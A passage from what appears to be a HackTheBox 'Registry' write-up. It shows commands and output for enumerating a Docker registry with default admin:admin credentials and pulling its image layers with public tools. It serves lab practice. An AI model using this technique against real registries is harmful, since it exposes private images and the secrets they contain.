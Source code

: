 It consists of `_catalog` endpoint which lists the available docker images.
![[Pasted image 20210718164219.png]]

We could now try to search for the tags of the docker image.
![[Pasted image 20210718164407.png]]

We now know that the docker registry has an image with name `bolt-image:latest`.
Now, We can attempt to `docker pull` the image onto our box and inspect it.But, It keeps giving us an SSL error.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.22]─[~/htb/registry]
└──╼ # docker pull docker.registry.htb/bolt-image
Using default tag: latest
Error response from daemon: Get "https://docker.registry.htb/v2/": x509: certificate relies on legacy Common Name field, use SANs or temporarily enable Common Name matching with GODEBUG=x509ignoreCN=0
```

I am unable to fix this error even importing the `SSL` certificate did not work.
```python
┌─[Magisk@Xyan1d3]─[17.17.17.9]─[~/htb/registry/registry-cli]
└──╼ # python3 registry.py -l admin:admin -r https://docker.registry.htb --no-validate-ssl
---------------------------------
Image: bolt-image
  tag: latest
┌─[Magisk@Xyan1d3]─[17.17.17.9]─[~/htb/registry/registry-cli]
└──╼ # python3 registry.py -l admin:admin -r https://docker.registry.htb --no-validate-ssl --layers
---------------------------------
Image: bolt-image
  tag: latest
    layer: sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff, size: 37206102
    layer: sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797, size: 851
    layer: sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a, size: 547
    layer: sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0, size: 162
    layer: sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791, size: 104569678
    layer: sha256:c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7, size: 803
    layer: sha256:02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c, size: 222
    layer: sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee, size: 682
    layer: sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b, size: 335
```

We could now use a `docker-fetch.py`.
Link : https://github.com/NotSoSecure/docker_fetch
```python
┌─[X]─[Magisk@Xyan1d3]─[17.17.17.9]─[~/htb/registry/docker-dump]
└──╼ # python2 ../docker_fetch/docker_image_fetch.py -u https://admin:admin@docker.registry.htb
/usr/local/lib/python2.7/dist-packages/cryptography/__init__.py:39: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in a future release.
  CryptographyDeprecationWarning,

[+] List of Repositories:

bolt-image

Which repo would you like to download?:  bolt-image



[+] Available Tags:

latest

Which tag would you like to download?:  latest

```